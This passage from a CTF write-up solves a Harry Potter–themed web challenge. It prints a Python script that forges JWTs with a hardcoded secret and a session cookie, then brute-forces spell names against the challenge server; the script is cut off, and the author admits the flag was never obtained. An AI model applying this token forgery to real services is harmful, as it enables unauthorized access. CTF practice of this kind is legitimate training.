 Is `May 2, 1998` when Harry Potter defeated Voldemort so we need to find the correct spell to defeat Voldemort. <br>
After searching, I found this [website](https://harrypotter.fandom.com/wiki/Battle_of_Hogwarts) and I found the correct spell is `Expelliarmus` which is his Disarming Charm. <br>
![expelliarmus](/assets/img/texsaw-ctf_2025/expelliarmus.png)

But I was not able to find the flag but I have found all the information I need and here is the script to get the flag. <br>
```python
import jwt
import requests

SECRET_KEY = 'SlccjCzySpcxtzyp'

SESSION_COOKIE = "tk3kXkymEaa0uE7g_P274TPkEgsX-TX9DrFL_ghzIwI.i2NS5OQ0qHpagdx7eh2HMWE9KV0"

MAGIC_URL = "http://74.207.229.59:20202/magic"

BATTLE_DATE = "1998-05-02T09:45:00.000000+00:00"

LOCATION = "battle of hogwarts"

spells = [
    "Expelliarmus", "Stupefy", "Protego", "Protego Maxima", "Petrificus Totalus", "Reducto",
    "Confringo", "Bombarda", "Diffindo", "Impedimenta", "Rictusempra", "Levicorpus",
    "Incarcerous", "Relashio", "Oppugno", "Finite Incantatem", "Lumos Maxima",
    "Homenum Revelio", "Salvio Hexia", "Cave Inimicum", "Muffliato", "Glisseo",
    "Everte Statum", "Expecto Patronum", "Langlock"
]

print(f"[*] Starting PotterMania Solver...")
print(f"[*] Using secret key: {SECRET_KEY}")
print(f"[*] Using battle date: {BATTLE_DATE}")
print(f"[*] Using location: {LOCATION}")
print(f"[*] Testing {len(spells)} different spells...")

for spell in spells:
    payload = {
        "date": BATTLE_DATE,
        "loc": LOCATION,
        "spell": spell
    }
    
    token = jwt.encode(payload, SECRET_KEY, algorithm="HS256")
    
    headers = {
        "X-Magic-Token": token
    }
    cookies = {
        "session": SESSION_COOKIE
```
